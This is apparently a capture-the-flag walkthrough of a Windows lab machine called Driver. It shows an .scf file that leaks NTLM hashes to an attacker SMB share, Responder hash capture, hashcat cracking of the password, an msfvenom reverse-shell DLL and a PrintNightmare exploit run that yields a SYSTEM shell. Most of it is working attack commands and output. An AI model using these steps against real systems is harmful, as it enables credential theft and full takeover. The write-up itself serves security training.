


Box: Windows

Level: Easy
### Index
1. Box Info 
2. Initial Nmap Enumeration
3. Web Enumeration - Port 80
4. ntlm_theft to prepare `.scf` file
5. Uploading `.scf` file and start Responder to monitor for upcoming Hash
6. Cracking NetNTLMv2 Hash using Hashcat
7. Privilege Escalation - winPEASany.exe - [CVE-2021–34527](https://github.com/nathanealm/PrintNightmare-Exploit) and [CVE-2021-1675](https://github.com/nathanealm/PrintNightmare-Exploit)
8. Privilege Escalation using PowerShell

[Windows Privilege Escalation: Print NightMare ](https://www.hackingarticles.in/windows-privilege-escalation-printnightmare/)
### Box Info
```
Driver is an easy Windows machine that focuses on printer exploitation. Enumeration of the machine reveals that a web server is listening on port 80, along with SMB on port 445 and WinRM on port 5985. Navigation to the website reveals that it&amp;amp;amp;#039;s protected using basic HTTP authentication. While trying common credentials the `admin:admin` credential is accepted and we are able to visit the webpage. The webpage provides a feature to upload printer firmwares on an SMB share for a remote team to test and verify. Uploading a Shell Command File that contains a command to fetch a remote file from our local machine, leads to the NTLM hash of the user `tony` relayed back to us. Cracking the captured hash to retrieve a plaintext password we are able login as `tony`, using WinRM. Then, switching over to a meterpreter session it is discovered that the machine is vulnerable to a local privilege exploit that abuses a specific printer driver that is present on the remote machine. Using the exploit we can get a session as `NT AUTHORITY\SYSTEM`.
```

### Initial Nmap Enum

```
# nmap -p- --min-rate=1000 -Pn -T4 -sC -sV 10.10.11.106

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s
| smb2-time: 
|   date: 2024-08-25T12:40:25
|_  start_date: 2024-08-25T12:34:56
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

### Web Enumeration - Port 80 

Upon reading the Box info, It says the `admin:admin` would work on `port 80`. 


We have upload file option under **Firmware Update** tab.


Okay now at this stage, I think I will have to figure out what I can upload to get the reverse shell. I tried PHP, ASP, EXE and BAT files but nothing work. Then I Googled **MFP Firmware Update Center Exploit-DB** and found that  [HP Web Jetadmin 7.5.2456 - Printer Firmware Update Script Arbitrary File Upload](https://www.exploit-db.com/exploits/23878) But this was not much of helpful. 

### ntlm_theft to prepare `.scf` file

**Without Looking at Hint OR Writeups** I got the user flag for this box. Okay so we will going to generate the `.scf` file using [`ntlm_theft`](https://github.com/Greenwolf/ntlm_theft). 
```
$ sudo python ntlm_theft.py -g scf -s 10.10.14.4 -f openit -vv
Created: openit/openit.scf (BROWSE TO FOLDER)
Generation Complete.

┌──(ringbuffer㉿kali)-[~/Downloads/Driver.htb/ntlm_theft]
└─$ sudo cat openit/openit.scf
[Shell]
Command=2
IconFile=\\10.10.14.4\tools\nc.ico
[Taskbar]
Command=ToggleDesktop   
```

### Uploading `.scf` file and start Responder to monitor for upcoming Hash
Now We are going to start the `Responder` and upload this `.scf` file from the Web Browser.

```
┌──(ringbuffer㉿kali)-[~/Downloads/Driver.htb]
└─$ sudo responder -I tun0 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.4]
    Responder IPv6             [dead:beef:2::1002]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-2EHD5P2QMXH]
    Responder Domain Name      [SU87.LOCAL]
    Responder DCE-RPC Port     [46608]

[+] Listening for events...                                                                                                                                             


[SMB] NTLMv2-SSP Client   : 10.10.11.106
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:8af926ba003c05ae:BA773218F87C3DD9B09425232455D219:010100000000000080D5CC10F9F6DA01C649C83E3403F89D0000000002000800530055003800370001001E00570049004E002D00320045004800440035005000320051004D005800480004003400570049004E002D00320045004800440035005000320051004D00580048002E0053005500380037002E004C004F00430041004C000300140053005500380037002E004C004F00430041004C000500140053005500380037002E004C004F00430041004C000700080080D5CC10F9F6DA0106000400020000000800300030000000000000000000000000200000D740B860F244CF9859683FA811BCEDB667F6A1C9AB83F2182DCBC641CC51E7EF0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E003400000000000000000000000000                                                       
```

Once you upload the `.scf` file, You will notice that the user `tony` will try to authenticate to our rouge SMB Share and we will get his NTLM Hash. Copy the NTLM into a text file. Using the `hashid` we will try to identify the NTLM hash type. It's NetNTLMv2

```
──(ringbuffer㉿kali)-[~/Downloads/Driver.htb]
└─$ hashid ntlm.hash                                                                  
--File 'ntlm.hash'--
Analyzing 'tony::DRIVER:8af926ba003c05ae:BA773218F87C3DD9B09425232455D219:010100000000000080D5CC10F9F6DA01C649C83E3403F89D0000000002000800530055003800370001001E00570049004E002D00320045004800440035005000320051004D005800480004003400570049004E002D00320045004800440035005000320051004D00580048002E0053005500380037002E004C004F00430041004C000300140053005500380037002E004C004F00430041004C000500140053005500380037002E004C004F00430041004C000700080080D5CC10F9F6DA0106000400020000000800300030000000000000000000000000200000D740B860F244CF9859683FA811BCEDB667F6A1C9AB83F2182DCBC641CC51E7EF0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E003400000000000000000000000000'
[+] NetNTLMv2 
--End of file 'ntlm.hash'--  
```

### Cracking NetNTLMv2 Hash using Hashcat

Using the `hashcat` command, We will get the number for `-m` flag for hashcat.
```
┌──(ringbuffer㉿kali)-[~/Downloads/Driver.htb]
└─$ hashcat --help | grep NTLM                                        
   5500 | NetNTLMv1 / NetNTLMv1+ESS                                  | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                             | Network Protocol
   5600 | NetNTLMv2                                                  | Network Protocol
  27100 | NetNTLMv2 (NT)                                             | Network Protocol
   1000 | NTLM                                                       | Operating System

```

It's `5600`. Let's Crack the Hash.
```
$ hashcat -m 5600 -a 0 ntlm.txt  /usr/share/wordlists/rockyou.txt
TONY::DRIVER:8af926ba003c05ae:ba773218f87c3dd9b09425232455d219:010100000000000080d5cc10f9f6da01c649c83e3403f89d0000000002000800530055003800370001001e00570049004e002d00320045004800440035005000320051004d005800480004003400570049004e002d00320045004800440035005000320051004d00580048002e0053005500380037002e004c004f00430041004c000300140053005500380037002e004c004f00430041004c000500140053005500380037002e004c004f00430041004c000700080080d5cc10f9f6da0106000400020000000800300030000000000000000000000000200000d740b860f244cf9859683fa811bcedb667f6a1c9ab83f2182dcbc641cc51e7ef0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003400000000000000000000000000:liltony

Session..........: hashcat
Status...........: Cracked

```

We got the password for user `tony`. Evil-WinRm will get you a shell and user flag.

```
$ evil-winrm -i 10.10.11.106 -u tony -p 'liltony'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> cd ..
*Evil-WinRM* PS C:\Users\tony> cd Desktop
*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
428b0c98b3171df0a7dcd4ba0a38f5b5
```

### Privilege Escalation

Using `winPEASany.exe`, I got some good colored results. Let's Start Analyzing it.
```
############# PowerShell Settings
PowerShell v2 Version: 2.0
PowerShell v5 Version: 5.0.10240.17146
PowerShell Core Version: 
Transcription Settings: 
Module Logging Settings: 
Scriptblock Logging Settings: 
PS history file: C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS history size: 134B

```

Looking at the initial lines, I notice that there is a `ConsolHost_history.txt` present. I tried to extract the content of that history file.

```
*Evil-WinRM* PS C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1
```

okay so It is adding `RICOH_PCL6` Printer. Upon Digging the vulnerability of `RICOH_PCL6` Local Privilege Escalation Vulnerability, I found this GitHub Repo which has a pretty good details about the vulnerability and how we can take advantage of it. Let me explain it 

- RICOH drivers DLLs are located at C:\\ProgramData\\RICOH_DRV\\RICOH PCL6 UniversalDriver V4.23\\_common\\dlz folder
- These DLLs have `Everyone Full Access` By default 
```
*Evil-WinRM* PS C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz> icacls "C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\*.dll"
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\borderline.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\colorbalance.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\headerfooter.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\jobhook.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\outputimage.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\overlaywatermark.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\popup.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\printercopyguardpreview.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\printerpreventioncopypatternpreview.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\secretnumberingpreview.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\watermark.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\watermarkpreview.dll Everyone:(F)
```

- When the new printer is added using the driver, the print spooler service (Which runs as a Local System) will load all the DLLs from this folder.
- Due to the bad permission on these DLLs, an attacker can add malicious DLL then the attacker can add a new printer using the existing driver and at this point the malicious DLL will get load by the Print Spooler Service. So you have you malicious DLL executed as a Local System.
- Low privilege user (in our case `tony`) has a permission to add new printer as long as they use the driver that is already installed. 

When the attacker tries to exploit the Print Spooler remotely, attacker will have to verify whether the host is vulnerable to Printnightmare flaw or not. We can achieve this using the following command.
```
# impacket-rpcdump 10.10.11.106 | grep 'MS-RPRN'
Protocol: [MS-RPRN]: Print System Remote Protocol 

# impacket-rpcdump 10.10.11.106 | grep 'MS-RPRN'                                           
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

In order to exploit this vulnerability, the delivery method of this exploit is a malicious DLL. This method is also called as a ‘File-less’ exploitation which helps us to bypass most of the protections on the system, such as the antivirus software. In this attack I am going to trick the print spooler service to install a new driver from an UNC path and load the driver but in our case it’s the malicious DLL and this would give us a reverse shell to our attacker machine. To create our malicious DLL I’ll be using `msfvenom`.
```
$ sudo msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f dll -o PowerMe.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1885 bytes
Final size of dll file: 9216 bytes
Saved as: PowerMe.dll
```

Now running the `impacket-smbserver` to host our malicious DLL.

```
$ sudo impacket-smbserver share /home/ringbuffer/Downloads/Driver.htb  -smb2support                    
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Now Start the NetCat Listener and run the following exploit.
```
# python CVE-2021-1675.py driver.local/tony:liltony@10.10.11.106 '\\10.10.14.4\share\PowerMe.dll'
[*] Connecting to ncacn_np:10.10.11.106[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.14.4\share\PowerMe.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/smbconnection.py", line 541, in writeFile
    return self._SMBConnection.writeFile(treeId, fileId, data, offset)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/smb3.py", line 1737, in writeFile
    written = self.write(treeId, fileId, writeData, writeOffset, len(writeData))
              ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/smb3.py", line 1445, in write
    if ans.isValidAnswer(STATUS_SUCCESS):
       ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/smb3structs.py", line 458, in isValidAnswer
    raise smb3.SessionError(self['Status'], self)
impacket.smb3.SessionError: SMB SessionError: STATUS_PIPE_CLOSING(The specified named pipe is in the closing state.)

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/ringbuffer/Downloads/Driver.htb/PrintNightmare-Exploit/CVE-2021-1675.py", line 192, in <module>
    main(dce, pDriverPath, options.share)
  File "/home/ringbuffer/Downloads/Driver.htb/PrintNightmare-Exploit/CVE-2021-1675.py", line 93, in main
    resp = rprn.hRpcAddPrinterDriverEx(dce, pName=handle, pDriverContainer=container_info, dwFileCopyFlags=flags)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rprn.py", line 655, in hRpcAddPrinterDriverEx
    return dce.request(request)
           ^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 858, in request
    self.call(request.opnum, request, uuid)
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 847, in call
    return self.send(DCERPC_RawCall(function, body.getData(), uuid))
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 1300, in send
    self._transport_send(data)
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 1237, in _transport_send
    self._transport.send(rpc_packet.get_packet(), forceWriteAndx = forceWriteAndx, forceRecv = forceRecv)
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/transport.py", line 541, in send
    self.__smb_connection.writeFile(self.__tid, self.__handle, data)
  File "/usr/lib/python3/dist-packages/impacket/smbconnection.py", line 543, in writeFile
    raise SessionError(e.get_error_code(), e.get_error_packet())
impacket.smbconnection.SessionError: SMB SessionError: code: 0xc00000b1 - STATUS_PIPE_CLOSING - The specified named pipe is in the closing state.

```

Yes. My exploit code has errors but at `Try 3..` you will notice that the System Shell is loaded where the NetCat Listener is running.

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.106] 49421
Windows PowerShell running as user DRIVER$ on DRIVER
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\> whoami
nt authority\system
PS C:\> cd Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> type root.txt
7638e92e15895413c3019935f4e778fa
PS C:\Users\Administrator\Desktop> 

```

Read the following things for better understanding of this vulnerability
[Recoh Printer Exploit](https://vbscrub.com/2020/03/24/ricoh-printer-exploit-priv-esc-to-local-system/)  AND [PrintNightMare](https://github.com/nathanealm/PrintNightmare-Exploit) 


